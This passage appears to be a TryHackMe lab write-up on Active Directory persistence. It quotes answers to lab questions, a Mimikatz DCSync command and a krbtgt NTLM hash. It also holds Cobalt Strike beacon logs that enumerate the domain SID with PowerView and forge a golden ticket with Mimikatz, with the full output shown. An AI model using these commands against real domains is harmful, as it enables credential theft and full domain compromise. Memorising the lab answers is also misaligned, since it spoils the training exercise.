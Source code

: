 > What is the Mimikatz command to perform a DCSync for the username of test on the za.tryhackme.loc domain?

> lsadump::dcsync /domain:za.tryhackme.loc /user:test

> What is the NTLM hash associated with the krbtgt user?

> 16f9af38fca3ada405386b3b57366082


# Task 3  Persistence through Tickets

枚举SID
```
beacon> powershell-import tools/PowerView.ps1
[*] Tasked beacon to import: /root/CobaltStrike/tools/PowerView.ps1
[+] host called home, sent: 143784 bytes
beacon> powershell Get-DomainSID
[*] Tasked beacon to run: Get-DomainSID
[+] host called home, sent: 305 bytes
[+] received output:
#< CLIXML
S-1-5-21-3885271727-2693558621-2658995185

```

申请金票
```
beacon> mimikatz kerberos::golden /admin:ReallyNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:S-1-5-21-3885271727-2693558621-2658995185 /krbtgt:16f9af38fca3ada405386b3b57366082 /endin:600 /renewmax:10080 /ptt
[*] Tasked beacon to run mimikatz's kerberos::golden /admin:ReallyNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:S-1-5-21-3885271727-2693558621-2658995185 /krbtgt:16f9af38fca3ada405386b3b57366082 /endin:600 /renewmax:10080 /ptt command
[+] host called home, sent: 750706 bytes
[+] received output:
User      : ReallyNotALegitAccount
Domain    : za.tryhackme.loc (ZA)
SID       : S-1-5-21-3885271727-2693558621-2658995185
User Id   : 500
Groups Id : *513 512 520 518 519 
ServiceKey: 16f9af38fca3ada405386b3b57366082 - rc4_hmac_nt      
Lifetime  : 8/18/2022 10:24:04 AM ; 8/18/2022 8:24:04 PM ; 8/25/2022 10:24:04 AM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'ReallyNotALegitAccount @ za.tryhackme.loc' successfully submitted for current session
```
